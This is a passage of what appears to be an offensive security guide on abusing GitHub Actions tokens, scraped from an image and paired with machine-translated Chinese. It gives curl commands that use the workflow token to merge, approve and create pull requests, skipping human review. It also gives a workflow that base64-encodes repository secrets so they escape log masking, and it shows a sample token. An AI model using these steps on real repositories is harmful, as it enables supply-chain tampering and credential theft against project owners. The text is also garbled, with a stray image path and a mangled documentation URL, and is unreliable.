 您可以在：[https：//docs.github.com/en/actions/security-guides/automatic-token-authentication#permissions-formissions-for-theub \_token] （https://docs.github.com/en/actions/security-guides/automatic-token-authentication#permissions-formissions-for-the-github \_token）

These tokens looks like this: `ghs_veaxARUji7EXszBMbhkr4Nz2dYz0sqkeiur7`

Some interesting things you can do with this token:

您可以使用这个令牌来做一些有趣的事情：

```bash
# Merge PR
curl -X PUT \
    https://api.github.com/repos/<org_name>/<repo_name>/pulls/<pr_number>/merge \
    -H "Accept: application/vnd.github.v3+json" \
    --header "authorization: Bearer $GITHUB_TOKEN" \
    --header 'content-type: application/json' \
    -d '{"commit_title":"commit_title"}'

# Approve a PR
curl -X POST \
    https://api.github.com/repos/<org_name>/<repo_name>/pulls/<pr_number>/reviews \
    -H "Accept: application/vnd.github.v3+json" \
    --header "authorization: Bearer $GITHUB_TOKEN" \
    --header 'content-type: application/json' \
    -d '{"event":"APPROVE"}'

# Create a PR
curl -X POST \
  -H "Accept: application/vnd.github.v3+json" \
  --header "authorization: Bearer $GITHUB_TOKEN" \
    --header 'content-type: application/json' \
  https://api.github.com/repos/<org_name>/<repo_name>/pulls \
  -d '{"head":"<branch_name>","base":"master", "title":"title"}'
```

{% hint style="danger" %}
Note that in several occasions you will be able to find **github user tokens inside Github Actions envs or in the secrets**. These tokens may give you more privileges over the repository and organization.

请注意，在某些情况下，您将能够在GitHub Actions Envs或Secrets **中找到** github用户令牌。 这些令牌可能会为您提供更多的资源和组织的特权。
{% endhint %}

### List secrets in Github Action output

###在github动作输出中列出秘密

```yaml
name: list_env
on:
  workflow_dispatch: # Launch manually
  pull_request: #Run it when a PR is created to a branch
    branches:
      - '**'
  push: # Run it when a push is made to a branch
    branches:
      - '**'
jobs:     
  List_env:
    runs-on: ubuntu-latest
    steps:
      - name: List Env
        # Need to base64 encode or github will change the secret value for "***"
        run: sh -c 'env | grep "secret_" | base64 -w0'
        env:
          secret_myql_pass: ${{secrets.MYSQL_PASSWORD}}
```